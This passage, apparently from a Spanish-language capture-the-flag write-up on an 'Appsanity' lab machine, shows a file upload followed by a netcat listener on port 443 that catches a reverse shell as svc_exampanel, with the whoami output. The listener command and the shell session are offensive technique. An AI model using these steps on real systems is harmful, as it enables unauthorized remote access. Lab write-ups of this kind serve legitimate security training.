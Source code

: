 ![Write-up Image](images/Screenshot_41.png)

Y ahora si cargamos el archivo.
![Write-up Image](images/Screenshot_42.png)

Y estamos en escucha con `netcat` por el puerto 443 conseguimos una consola como el usuario `svc_exampanel`.

```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.104] from (UNKNOWN) [10.129.196.198] 52610
Spawn Shell...
Microsoft Windows [Version 10.0.19045.3570]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
appsanity\svc_exampanel
```
